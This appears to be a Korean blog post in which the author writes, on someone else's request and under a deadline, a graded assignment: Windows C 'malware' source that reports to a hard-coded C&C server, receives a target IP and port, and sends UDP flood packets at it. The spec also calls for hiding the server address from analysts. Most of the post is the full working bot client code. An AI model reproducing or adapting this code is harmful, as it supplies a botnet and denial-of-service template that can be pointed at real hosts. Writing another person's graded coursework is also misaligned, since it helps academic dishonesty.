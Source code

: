 #추가요청
* 기존 기능 그대로 python이 아닌 C를 이용하여 작성  
* 작업 환경은 Windows이며 6시간 내로 제출해야 하는 상황  

#조건(기존과 동일)
* 악성코드는 서버(XXX.XXX.XX.XX)에 XXXX번 포트로
IMHACKER_학번 메시지를 전송한다.[10점]  
* C&C 서버로부터 공격 대상자의 IP와 PORT번호를 받고 공격지에 UDP flooding공격을 수행  
(본인학번을 10번 반복해서 전송한다.) [15점]
* 악성코드는 EXE로 작성한다. [5점]
* [보너스] 악성코드 분석가를 방해하기 위해 클라이언트 모듈 내부에서
서버주소는 인코딩 또는 암호화 기능 추가 [3점]

---
#접근  
시간이 없었다. 코드 가독성과 효율성은 신경쓰지 않아도 된다는 이야기가 있었으므로 최대한 신속하게 작업을 마무리 했다. Windows환경이므로 Winsock2라이브러리를 사용하였다.

Visual 2017을 기준으로 Winsock2.lib에서 사용되는 ws2_32.lib은 #pragma 전처리문을 통해 포함시킬 수 있다. 라이브러리에서 제공하는 함수들을 적절하게 이용하여 구현 가능하다.

여기서 가장 고민을 많이 했던 부분은 서버에서 Data를 받아올때 원하는 데이터 추출방법 이였다. python이나 다른 언어라면 망설임 없이 정규표현식을 사용했겟지만 C언어에서 정규표현식을 한번도 써본적이 없다... 따라서 Data를 배열에 넣고 반복문을 이용하여 원하는 값을 추출하였다.  
이부분이 가장 아쉽지만 의뢰자가 상관 없다고 이야기 했으므로 망설임 없이 넘겨주었다.

```c

#undef UNICODE
#undef _UNICOD

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <WinSock2.h>

#pragma comment(lib, "ws2_32.lib")

#define BUFFER 1024

char *cnc_serv(char *IP, char *PORT, char* payload){

	WSADATA wsaData;
	SOCKET hServSock;
	struct sockaddr_in servAddr;
	int tmp = sizeof(servAddr);

	char recv_buf[BUFFER];

	if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
		fprintf(stderr, "WSAStartup() failed");
		exit(1);
	}

	if ((hServSock = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP)) < 0) {
		fprintf(stderr, "socket() failed");
		WSACleanup();
		exit(1);
	}

	memset(&servAddr, 0, sizeof(servAddr));
	servAddr.sin_family = AF_INET;
	servAddr.sin_addr.s_addr = inet_addr(IP);
	servAddr.sin_port = htons(atoi(PORT));

	printf("Sending Message to C&C server...\n");
	printf("PAYLOAD = %s\n\n", payload);


	sendto(hServSock, payload, BUFFER, 0, (struct sockaddr *) &servAddr, sizeof(servAddr));

	printf("Success sending payload to C&C server...\n\n");
	printf("RECVFROM C&C Server .....\n");

	memset(&recv_buf, 0, sizeof(recv_buf));
	recvfrom(hServSock, recv_buf, BUFFER, 0, (struct sockaddr *) &servAddr, &tmp);

	return recv_buf;
}

void *target_serv(char *IP, char *PORT, char* payload) {

	WSADATA wsaData;
	SOCKET hServSock;
	struct sockaddr_in servAddr;
	int tmp = sizeof(servAddr);

	char recv_buf[BUFFER];

	if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
		fprintf(stderr, "WSAStartup() failed");
		exit(1);
	}

	if ((hServSock = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP)) < 0) {
		fprintf(stderr, "socket() failed");
		WSACleanup();
		exit(1);
	}

	memset(&servAddr, 0, sizeof(servAddr));
	servAddr.sin_family = AF_INET;
	servAddr.sin_addr.s_addr = inet_addr(IP);
	servAddr.sin_port = htons(atoi(PORT));

	printf("Sending Message to Target server...\n");
	printf("PAYLOAD = %s\n\n", payload);

	sendto(hServSock, payload, BUFFER, 0, (struct sockaddr *) &servAddr, sizeof(servAddr));

	printf("Success sending payload to Target server...\n\n");
}

int main(void)
{
	char t_ip[50];
	char t_port[10];
	char temp[50];
	int ip_len;
	int i=0,j=0;
	int k, l;

	memset(&temp, 0,sizeof(temp));
	memset(&t_ip, 0, sizeof(t_ip));

	char *payload_1 = "IMHACKER_123456789";
	char *payload_2 = "123456789";
	char *target = cnc_serv("114.70.37.17", "10004", payload_1);

	printf("I FOUND TARGET!! : %s\n\n\n", target);
	memcpy(temp, target, strlen(target));
	ip_len = strlen(temp);

	printf("NOW You have to Attack the target server!!!\n\n");

// 타겟의 ip를 추출한다.
	for (i = 0; i < ip_len; i++) {

		if (temp[i] == '_') {

			for (k = i; k < ip_len; k++) {

				if (temp[k] == ':')
					break;

				t_ip[j] = temp[k+1];

				if (t_ip[j] == ':')
					t_ip[j] = NULL;

				j++;
			}
		}
	}
	j = 0;
// 타겟의 port를 추출한다.
	for (i = 0; i < ip_len; i++) {

		if (temp[i] == ':') {

			for (k = i; k < ip_len; k++) {

				if (temp[k] == NULL)
					break;

				t_port[j] = temp[k + 1];
				j++;
			}
		}
	}

	printf("\nTARGET_IP: %s\n", t_ip);
	printf("TARGET_PORT : %s\n", t_port);

	printf("ATTACK!!!\n\n");

	for (i = 0; i < 10; i++)
		target_serv(t_ip, t_port, payload_2);

	printf("SUCCESS!!!\n");

	return 0;
}
```
